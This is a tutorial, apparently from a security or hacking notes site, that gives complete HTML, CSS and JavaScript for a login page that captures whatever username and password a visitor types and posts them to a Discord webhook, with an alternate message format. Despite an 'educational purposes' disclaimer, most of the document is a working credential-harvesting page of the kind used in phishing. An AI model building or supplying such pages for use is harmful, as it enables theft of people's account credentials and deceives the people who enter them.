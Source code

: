 ```yaml
---
hidden: true
---
```


# Create a Login Page Webhook

This tutorial demonstrates how to create a login page that sends entered credentials to a webhook. Created by @bst04.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Disclaimer:** This guide is intended for educational purposes only. Unauthorized collection of user credentials is illegal and unethical. Use this knowledge responsibly and ethically.
{% endhint %}



***

### 📌 Basic Information

1. **Webhooks**
   * A webhook is an HTTP callback that allows one application to send real-time data to another.
   * Common platforms like Discord, Slack, or custom APIs can receive webhook data.
2. **Tools Used**
   * **HTML:** To structure the login form.
   * **CSS:** To style the login page.
   * **JavaScript:** To handle form submission and send data to the webhook.
3. **Platforms**
   * For simplicity, we'll use **Discord** as an example to receive the webhook data.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

* Basic knowledge of HTML, CSS, and JavaScript.
* A webhook URL (e.g., from Discord, Slack, or any custom API).
* A text editor (e.g., VS Code, Sublime Text).

***

### 🚀 Step-by-Step Process

#### **Step 1: Set Up Your Webhook**

1.  Choose a platform to receive the data. For this example, we'll use **Discord**:

    * Go to [Discord](https://discord.com/).
    * Create a server if you don't already have one.
    * Right-click on a channel → **Integrations** → **Webhooks** → **Create Webhook**.
    * Copy the webhook URL provided by Discord.

    Example Webhook URL:

    ```
    https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here
    ```

***

#### **Step 2: Create the Login Page (HTML + CSS)**

1.  Create an `index.html` file with the following code:

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Login Page</title>
        <style>
            body {
                font-family: Arial, sans-serif;
                background-color: #f2f2f2;
                display: flex;
                justify-content: center;
                align-items: center;
                height: 100vh;
                margin: 0;
            }
            .login-container {
                background-color: white;
                padding: 20px;
                border-radius: 8px;
                box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                width: 300px;
            }
            .login-container h2 {
                margin-bottom: 20px;
                text-align: center;
            }
            .login-container input {
                width: 100%;
                padding: 10px;
                margin: 10px 0;
                border: 1px solid #ccc;
                border-radius: 4px;
            }
            .login-container button {
                width: 100%;
                padding: 10px;
                background-color: #4CAF50;
                color: white;
                border: none;
                border-radius: 4px;
                cursor: pointer;
            }
            .login-container button:hover {
                background-color: #45a049;
            }
        </style>
    </head>
    <body>
        <div class="login-container">
            <h2>Login</h2>
            <form id="loginForm">
                <input type="text" id="username" placeholder="Username" required>
                <input type="password" id="password" placeholder="Password" required>
                <button type="submit">Login</button>
            </form>
        </div>

        <script src="script.js"></script>
    </body>
    </html>
    ```

***

#### **Step 3: Add JavaScript to Send Data to the Webhook**

1.  Create a `script.js` file with the following code:

    ```javascript
    document.getElementById("loginForm").addEventListener("submit", function(event) {
        event.preventDefault(); // Prevent the form from refreshing the page

        // Get the username and password from the form
        const username = document.getElementById("username").value;
        const password = document.getElementById("password").value;

        // Construct the payload to send to the webhook
        const payload = {
            embeds: [{
                title: "Login Attempt",
                fields: [
                    { name: "Username", value: username, inline: true },
                    { name: "Password", value: password, inline: true }
                ],
                color: 0x00ff00 // Green color
            }]
        };

        // Replace with your webhook URL
        const webhookUrl = "https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here";

        // Send the data to the webhook
        fetch(webhookUrl, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(payload)
        })
        .then(response => {
            if (response.ok) {
                alert("Data sent successfully!");
            } else {
                alert("Failed to send data.");
            }
        })
        .catch(error => {
            console.error("Error:", error);
            alert("An error occurred while sending data.");
        });
    });
    ```

***

#### **Step 4: Test the Setup**

1. Save both files (`index.html` and `script.js`) in the same directory.
2. Open `index.html` in your browser.
3. Enter a username and password in the login form and submit it.
4. Check your webhook platform (e.g., Discord) to see if the data was received.

***

#### **Step 5: Customize the Webhook Message**

You can customize the message format sent to the webhook. For example:

**Updated Payload Example:**

```javascript
const payload = {
    content: `Login Attempt:\nUsername: ${username}\nPassword: ${password}`
};
```

This will send a plain-text message instead of an embed.

***

### 🛠 Tips and Best Practices

1. **Use HTTPS:** If hosting this login page online, ensure it is served over HTTPS to protect data in transit.
2. **Inform Users:** Always inform users that their data will be sent to a webhook for demonstration or testing purposes.
3. **Test Locally:** Use local development tools (e.g., `localhost`) to test the functionality before deploying it.
4. **Secure Your Webhook URL:** Keep your webhook URL private to prevent unauthorized access.

***

### Conclusion

By following these steps, you can create a simple login page that sends entered credentials to a webhook. This setup is useful for learning about webhooks, form handling, and API communication. Remember to use this knowledge responsibly and ethically.
